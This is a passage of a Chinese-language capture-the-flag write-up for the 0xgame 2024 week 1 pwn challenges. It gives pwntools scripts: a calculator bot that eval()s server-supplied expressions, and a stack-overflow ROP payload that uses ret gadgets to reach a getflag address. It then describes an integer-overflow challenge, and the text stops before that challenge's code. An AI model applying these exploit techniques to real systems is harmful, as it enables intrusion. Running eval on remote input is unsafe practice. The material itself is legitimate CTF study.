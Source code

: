 # 0xgame 2024

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-50-1024x550.png" alt="img" style="zoom:67%;" />

一个很不错的新生赛

# 0xgame week1

真的很简单，一天就把pwn week1给ak了😊

#### ***[Week 1] 0. test your nc\***

太简单了，略

#### ***[Week 1] 1. test your pwntools\***

大概就是，接收收到的算式然后立刻返回答案，上代码

```
from pwn import *
io = remote('47.97.58.52',40010)
context.log_level = 'debug'   
while(1):
   io.recvuntil(b'=\n')
   result = io.recvuntil(b' = ',drop=True).decode().replace('\n','').replace('/','//')
   result = str(eval(result)).encode()
   io.sendline(result)
io.interactive()
```

#### ***[Week 1] 2. stack overflow\***

ida反编译如下：

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-9-1024x527.png" alt="img" style="zoom:50%;" />

注意语句 signal(11,getflag); 其中getflag只会给你半个flag，所以需要绕过11号报错，即sigment fault。加俩ret指令就可，所以代码如下。

```
from pwn import *
io = remote('47.97.58.52',40001)
elf = ELF('./pwn1')
context(os = 'linux',arch = 'amd64',log_level = 'debug')
io.recvuntil(b'her:\n')
io.send(b'A'*32 + p64(0x40101a) + p64(0x40101a) + p64(0x4012BD))
io.interactive()
```

#### ***[Week 1] 3. positive\***

<img src="http://www.leidongzheng.com/wp-content/uploads/2024/10/图片-10-1024x627.png" alt="img" style="zoom:50%;" />

显然是个整数溢出题，溢出整数buf为‘-1’因为类型转换的问题nbytes比较会失效，造成最后read函数存在栈溢出漏洞，直接给代码
